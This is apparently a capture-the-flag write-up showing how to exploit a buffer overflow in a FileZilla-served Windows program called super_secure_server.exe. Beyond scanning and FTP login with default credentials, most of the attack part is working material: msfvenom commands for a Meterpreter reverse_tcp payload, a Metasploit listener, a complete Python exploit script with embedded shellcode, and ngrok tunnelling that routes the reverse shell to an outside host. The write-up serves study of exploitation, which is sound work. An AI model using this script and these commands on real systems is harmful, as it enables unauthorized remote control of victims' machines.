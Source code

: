 

SCANNING
=========
````
ports 
======

21     ftp
445    microsoft win server 2008 R2 "almost"
5357   http api 2.0 
1887  filex-lport

#other services are for windows and seemed helpless 
#http server is unavailable so let's focus on ftp 
````


ENUMERATION
===========
```
ftp enum :
ftp version is FileZilla 
Try default credts user&pass = ftp and worked :) 

-ftp interaction :

opened filezella enterd host,name,pass,port 21
-found same folders let's check them !
 
#file super_secure_server.exe   , it is a 32-bit application PE32
#essfunc.dll   , it is an dll file for this executable to run 
````


when you try to interact with port 1887 you will get :

![image](https://user-images.githubusercontent.com/67979878/129482250-97cf013a-b154-45fa-8a9d-98c8ab8927ca.png)

so let's put all what we found together ! 

it seems this supersecure sever is what is running on this port so let's explore this software .

Try strings with the software found command `SECRET` which we can use also 

now let's try understand this software :

let's make our win7 as the target and our kali as attacker .

run super_secure_server.exe on win7 , to interact with kali you need to know the following :

```
win 7 ip address
port running super_secure_server.exe
```
 - to know ip_address simply type in cmd > `ipconfig` you will find it in my case it is 192.168.1.8 
 - to know port go to taskmanager and search for the PID of supe_secure_server.exe , then at cmd type > `netstat -ano ` 
 - then search for PID associated port number , now you are ready to go 

![image](https://user-images.githubusercontent.com/67979878/129482623-1963e607-a5e9-4116-a563-fcc201410e07.png)


now let's play :)

trying various inputs and testing Buffer_over_flow

![image](https://user-images.githubusercontent.com/67979878/129482785-2593e9ad-2da2-4a53-a929-0549841d5e1b.png)

after many tries ..


![image](https://user-images.githubusercontent.com/67979878/129482818-72e16f1a-82fc-4b0c-95a4-3fa35711114b.png)
![image](https://user-images.githubusercontent.com/67979878/129482831-8ff0b41c-3bc3-42dc-a550-d4e78facb5f8.png)


it seems like BOF hmmmmmm.. 

let's open this software with immunity debugger in win7 and see ..

doing same input in kali side :
![image](https://user-images.githubusercontent.com/67979878/129482947-9446a806-2ca8-4020-bd94-9cc128a7071f.png)

#### so we can over write EIP 

now we have made sure it is BOF .

exploiting BOF :
-------------------
````
- get offset till EIP
- get address of jmp esp instruction
- find bad characters
- generate shell code
- payload ="A"*offset + 'address' +shell code

````
 
let's make a unique pattern and then get offset till EIP .

kali side :
--------------
$ msf-pattern_create -l 2000  

now let's send "SECRET "+pattern created and see EIP value now 

![image](https://user-images.githubusercontent.com/67979878/129483128-585ba94b-d5de-45e1-a12b-a05642f52a7f.png)

let's check offset for this value  68423268

![image](https://user-images.githubusercontent.com/67979878/129483175-7b955723-b588-44e7-9a2c-a5df92157fdc.png)


now let's under stand the full image of BOF :

````
we want final payload to be like 

payload="A"*offset+'jmp esp instrunction address' + 'NOP'+shell code

"A"*offset : this is just to let us reach the EIP address 
ESP : points to top of the stack in other words above last data entered the stack , so if it the shell code it will be points to top of it 
EIP : points to next instruction to be executed so if it points to instuction **jmp esp** it will execute our shell code  
NOP : to make space between EIP and shell code to avoid any possible errors , in hex '\x90'
shell code : what will return reverse shell to us 

````

To find jmp esp instruction esp we have multiple ways but i will use mona.py script in immunity debugger you can download it then put in immunitydebuuger/libraries 

![image](https://user-images.githubusercontent.com/67979878/129483679-21e2e735-9999-470c-981b-b210eb9c466f.png)

results :

##### note : choose any address but must have false protections ! 
![image](https://user-images.githubusercontent.com/67979878/129483689-273244b5-8458-40c7-be13-c68e10a10855.png)

i pick this : 625012BA 
to write it in the code we must follow little endian way : EIP='/xBA/x12/x50/x62'

creating shell code with msfvenom :

from https://www.revshells.com/ choose msfvenom and then remember the software is 32 bit so remove x64 from the payload and listener
change lport and lhost for yours 

`$msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.9 LPORT=1234 -b '\x00' -f py`  

listener :

`msfconsole -q -x "use multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 192.168.1.9; set lport 1234; exploit"`

let's set our listner 

now it is time to automate this somehow let's open up a simple python script 


````
#!/bin/python env 

import socket 

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM) #version 4 , tcp communication
s.connect(('192.168.1.8',13337))  #ip in string form and port in integer form
#buf is generated by msfvenom
buf =  b"\x90"*10  
buf += b"\xda\xdf\xbb\x67\xc4\x35\xee\xd9\x74\x24\xf4\x5a\x2b"
buf += b"\xc9\xb1\x59\x31\x5a\x19\x83\xc2\x04\x03\x5a\x15\x85"
buf += b"\x31\xc9\x06\xc6\xba\x32\xd7\xb8\x8b\xe0\x5e\xdd\x88"
buf += b"\x8f\x33\x2d\xda\xc2\xbf\xc6\x8e\xf6\x8e\x27\xa5\x85"
buf += b"\xd8\xd8\x0d\x23\x3f\xd7\xb1\x18\x03\x76\x4e\x63\x50"
buf += b"\x58\x6f\xac\xa5\x99\xa8\x7a\xc3\x76\x64\x2a\xa0\xda"
buf += b"\x99\x5f\xf4\xe6\x98\x8f\x72\x56\xe3\xaa\x45\x22\x5f"
buf += b"\xb4\x95\x41\x07\x96\x9e\x1d\xa0\xd7\x73\xcd\x55\x1e"
buf += b"\x07\xd1\x64\x5e\xa1\xa2\xb3\x2b\x33\x62\x8a\xeb\x98"
buf += b"\x4b\x22\xe6\xe1\x8c\x85\x19\x94\xe6\xf5\xa4\xaf\x3d"
buf += b"\x87\x72\x25\xa1\x2f\xf0\x9d\x05\xd1\xd5\x78\xce\xdd"
buf += b"\x92\x0f\x88\xc1\x25\xc3\xa3\xfe\xae\xe2\x63\x77\xf4"
buf += b"\xc0\xa7\xd3\xae\x69\xfe\xb9\x01\x95\xe0\x66\xfd\x33"
buf += b"\x6b\x84\xe8\x44\x94\x56\x15\x19\x02\x9a\xd8\xa2\xd2"
buf += b"\xb4\x6b\xd0\xe0\x1b\xc0\x7e\x48\xd3\xce\x79\xd9\xf3"
buf += b"\xf0\x56\x61\x93\x0e\x57\x91\xbd\xd4\x03\xc1\xd5\xfd"
buf += b"\x2b\x8a\x25\x01\xfe\x26\x2c\x95\xc1\x1e\x31\x6c\xaa"
buf += b"\x5c\x32\x6a\xf8\xe9\xd4\x22\xac\xb9\x48\x83\x1c\x79"
buf += b"\x39\x6b\x77\x76\x66\x8b\x78\x5d\x0f\x26\x97\x0b\x67"
buf += b"\xdf\x0e\x16\xf3\x7e\xce\x8d\x79\x40\x44\x27\x7d\x0f"
buf += b"\xad\x42\x6d\x78\xca\xac\x6d\x79\x7f\xac\x07\x7d\x29"
buf += b"\xfb\xbf\x7f\x0c\xcb\x1f\x7f\x7b\x48\x67\x7f\xfa\x78"
buf += b"\x13\xb6\x68\xc4\x4b\xb7\x7c\xc4\x8b\xe1\x16\xc4\xe3"
buf += b"\x55\x43\x97\x16\x9a\x5e\x84\x8a\x0f\x61\xfc\x7f\x87"
buf += b"\x09\x02\x59\xef\x95\xfd\x8c\x73\xd1\x01\x52\x5c\x7a"
buf += b"\x69\xac\xdc\x7a\x69\xc6\xdc\x2a\x01\x1d\xf2\xc5\xe1"
buf += b"\xde\xd9\x8d\x69\x54\x8c\x7c\x08\x69\x85\x21\x94\x6a"
buf += b"\x2a\xfa\x27\x10\x43\xfd\xc8\xe5\x4d\x9a\xc9\xe5\x71"
buf += b"\x9c\xf6\x33\x48\xea\x39\x80\xef\xe5\x0c\xa5\x46\x6c"
buf += b"\x6e\xf9\x99\xa5"

offset=997
payload  = "SECRET "
payload += "A"*offset 
payload +="\xba\x12\x50\x62"
payload +=buf
s.send(payload)
s.close()

````

### make sure software is running in win7 and your listener is working before running the script 

run it now :

![image](https://user-images.githubusercontent.com/67979878/129485033-60116127-bb39-4d4a-9f68-0e7a476c6ad4.png)

Here we go ! 

let's exploit it at the machine now :) 

small changes 
```
set up your ngrok 
'ngrok just simply map an ip and port to yours it acts like a vps'
$ ./ngrok tcp 1234
change ip and port at the script to the machine ip and port 
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=8.tcp.ngrok.io  LPORT=11379 -b '\x00' -f py    #generate new buf
$ msfconsole -q -x "use multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 127.0.0.1; set lport 1234; exploit" #listenner                      
```
run the script now 



![image](https://user-images.githubusercontent.com/67979878/129485416-a6afbfc0-002d-43ed-8964-7ba5774b6cd0.png)


flag is at c:/Users/Administartor/Desktop/flag.txt


# done











